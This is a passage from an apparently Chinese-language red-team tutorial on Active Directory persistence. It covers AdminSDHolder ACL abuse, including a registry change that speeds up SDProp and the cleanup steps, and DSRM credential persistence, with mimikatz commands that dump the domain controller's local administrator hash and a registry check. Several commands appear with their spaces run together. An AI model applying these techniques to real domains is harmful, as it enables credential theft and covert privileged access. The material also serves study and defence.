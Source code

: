 ![](https://gitee.com/fuli009/images/raw/master/public/20210814114539.png)![]()

默认会等待60分钟，可以通过修改注册表来设置为60秒后触发。

    
    
    reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v AdminSDProtectFrequency/t REG_DWORD /d 1/f

![](https://gitee.com/fuli009/images/raw/master/public/20210814114540.png)

## 3.4 恢复

恢复触发时间

    
    
    reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v AdminSDProtectFrequency/t REG_DWORD /d 120/f

取消jack用户对adminSDHolder的权限

    
    
    Remove-DomainObjectAcl-TargetSearchBase"LDAP://CN=AdminSDHolder,CN=System,DC=redteam,DC=local"-PrincipalIdentity jack -RightsAll-Verbose

![]()

# 0x04 DSRM凭证

每个DC内部都有一个本地管理员账户，在该机器上拥有管理员权限。

## 4.1 获取本地管理员hash

    
    
    token::elevatelsadump::sam

![]()

得到hash为：

    
    
    852a844adfce18f66009b4f14e0a98de

## 4.2 检查是否工作

如果注册表项的值为0或者不存在，需要将其设置为2。

检查key是否存在并且获取值：

    
    
    Get-ItemProperty"HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA"-name DsrmAdminLogonBehavior

如果不存在则创建值为2的键：
